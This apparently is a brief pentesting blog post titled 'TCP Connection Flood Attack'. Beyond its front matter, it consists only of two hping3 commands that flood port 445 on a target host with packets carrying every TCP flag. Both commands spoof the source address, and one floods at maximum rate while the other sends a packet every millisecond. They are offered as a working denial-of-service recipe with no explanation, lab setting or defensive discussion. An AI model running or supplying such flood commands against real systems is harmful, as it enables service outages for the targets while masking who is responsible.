 ```yaml
---
layout: post
title: TCP Connection Flood Attack
categories: [Pentesting]
tags: [Kali, Linux]
description: TCP FLOOD
fullview: false
comments: true
---
```


{% highlight yaml %}
$hping3 -q -n -a 10.0.0.1 -SARFU -p 445 --flood 192.168.xx.xx
$hping3 -q -n -a 10.0.0.1 -SARFU -p 445 -i u1000 192.168.xx.xx
{% endhighlight %}
